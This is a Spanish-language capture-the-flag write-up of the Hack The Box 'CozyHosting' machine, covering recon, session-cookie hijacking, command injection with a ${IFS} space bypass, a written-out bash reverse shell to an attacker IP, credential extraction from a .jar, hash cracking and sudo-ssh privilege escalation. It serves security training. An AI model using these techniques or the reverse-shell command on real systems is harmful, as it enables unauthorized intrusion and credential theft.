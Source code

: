 Comenzamos realizando un ping para ver si tenemos acceso a la máquina:

![[first ping.png]]
Sabemos que nos estamos enfrentando a una máquina linux debido al ttl=63.

Procedemos con un reconocimiento de los puertos abiertos del servidor utilizando la herramienta [[nmap]]:

![[reconocimiento nmap.png]]

Donde podemos apreciar que los puertos 22,80 y 8888 se encuentran expuestos. Ahora vamos a hacer un escaneo más exhaustivo de dichos puertos, a los que les vamos a pasar unos scripts de nmap específicos para cada puerto:

![[nmap scripts.png]]

Nos indica con el puerto 80 que no se está realizando un redireccionamiento hacia http://cozyhosting.htb, de manera que tendremos que modificar el archivo /etc/hosts para que se realice el mismo y tengamos acceso a la página web. Quedaría de la siguiente manera:

![[modificación del etc-hosts.png]]


![[whatweb.png]]

Ahora haremos una pequeña enumeración de los subdirectorios de la página web, con la herramienta **dirsearch**. Ejecutaremos el siguiente comando:

```bash
dirsearch -u http://coozyhosting.htb
```

y obtenemos los siguientes resultados interesantes:

![[directorio actuator.png]]

Si intentamos acceder a http://coozyhosting.htb/admin nos redirige a http://coozyhosting.htb/login, y dicho panel de logeo no parece ser vulnerable a ninguna vulnerabilidad interesante. Podemos intentar ver lo que hay en en el subdirectorio /actuactor y, examinándolo observamos que tiene otro subdirectorio más interesante aún, /actuactor/sessions el cuál muestra lo siguiente:

![[actuator-sessions.png]]

Y parecen ser cookies de sesión, por lo que podríamos tratar de realizar [[Cookie Hijacking]] con alguna de ellas, por ejemplo con la que parece ser del usuario "kanderson":

![[Cookie Hijacking.png]]

Ahora, si volvemos a intentar acceder a http://coozyhosting.htb/admin, tendremos acceso a un panel de administrador, por lo que hemos robado la sesión del usuario "kanderson". En dicha página podemos observar distintas ventas y un gráfico que no nos van a ser muy útiles, pero al final, está el siguiente formulario con sus campos de entrada: 

![[formulario.png]]

Podemos tratar de realizar alguna inyección de comandos en alguno de los campos. Probando con el campo de *Username*, conseguimos lo siguiente: 

![[Error formulario.png]]

Por lo que sabemos que podemos ejecutar comandos en dicha máquina (aunque no se vea completamente el output entero del comando). Ahora enviaremos la petición a [[Burpsuite]], de manera que será más fácil modificar las peticiones. Sabiendo que podemos inyectar comandos, podríamos tratar de conseguir una [[Reverse shell]]. Para ello haremos uso del siguiente comando en bash:

```bash
sh -i >& /dev/tcp/10.10.14.116/4444 0>&1
```

Pero al intentar meterlo en la petición, nos devuelve el siguiente error: 

![[Burpsuite error.png]]

De manera que nos la tendremos que apañar para no introducir espacios en blanco en la petición. Para ello, crearemos un script en nuestra máquina que contenga dicha sentencia, y trataremos de leerla y ejecutarla desde la máquina víctima. Para ello crearemos un servidor http con python donde tenemos dicho archivo, y además nos pondremos en escucha con [[NetCat]]: 

![[servidor y ncat.png]]

Ahora solo hace falta que la máquina víctima ejecute nuestro script, y se puede hacer enviando la siguiente petición, en la que se hace un curl a nuestro script y seguidamente se ejecuta en una bash (${IFS} es una variable de entorno que se interpreta como un espacio): 

![[Burpsuite reverse shell.png]]

Y de esta manera ya habremos conseguido la reverse shell, siendo el usuario app: 

![[reverse shell.png]]

Examinando el archivo /etc/passwd, observamos que somos el único usuario junto a root, postgres y josh que podemos ejecutar una shell, por lo que nuestro próximo objetivo será intentar convertirnos en el usuario josh. En el directorio en el que nos encontramos, existe un archivo .jar. Este tipo de archivos permiten ejecutar aplicaciones y herramientas escritas en java, y además están comprimidos con el formato ZIP y cambiada la extensión, de manera que podemos tratar de descomprimir dicho archivo para ver que contiene. Para ello realizamos el siguiente comando: 

```bash
unzip cloudhosting-0.0.1.jar
```

Y el contenido del archivo resulta ser tres carpetas, y, visualizando el contenido de las mismas con detenimiento, podemos apreciar en el archivo BOOT-INF/classes/application.properties el siguiente contenido:

![[password leak.png]]

De donde se puede deducir que se está utilizando una base de datos, concretamente **postgresql** por el puerto **5432**, y además en la última línea se encuentra la contraseña necesaria para acceder hardcodeada, para el usuario postgres. Intentamos entonces conectarnos a la base de datos con dichas credenciales de la siguiente manera: 

![[postgress interface.png]]

Listando las bases de datos existentes en el sistema conseguimos lo siguiente:

![[postgres tablas.png]]

La más interesante sin duda parece cozyhosting, así que la examinamos para ver el contenido de la misma:

![[postgres tabla users.png]]

Una vez tenemos las tablas, podría ser que en la tabla users se almacenasen credenciales interesantes, por lo que podemos intentar listar el contenido de la misma. A base de prueba y error, conseguimos listarlo de la siguiente manera:

![[hashes contraseñas.png]]

Y conseguimos así los usuarios existentes, con sus contraseñas hasheadas. 
Trataremos ahora en deshashear dichas contraseñas para conseguirlas en texto claro. Usaremos el siguiente comando con john (en el archivo kanderson.txt se encuentran los hashes de ambos usuarios):

![[deshash password.png]]

De manera que podemos tratar de cambiar de usuario a josh, con dicha contraseña: 

![[user flag.png]]

Así, hemos conseguido acceder como dicho usuario, y conseguir la flag de user. 

Procederemos ahora con la escalada de privilegios. Para ello listaremos los binarios que podemos ejecutar como sudo con siguiente comando en bash:

```bash
sudo -l
```

y vemos que podemos ejecutar como root el binario ssh, por lo que podemos realizar una búsqueda en [gtfobins](https://gtfobins.github.io) y observamos que podemos ejecutar el siguiente comando para conseguir una shell con el usuario root:

![[root flag.png]]

Y de esta manera conseguimos escalar privilegios y conseguir la flag de root.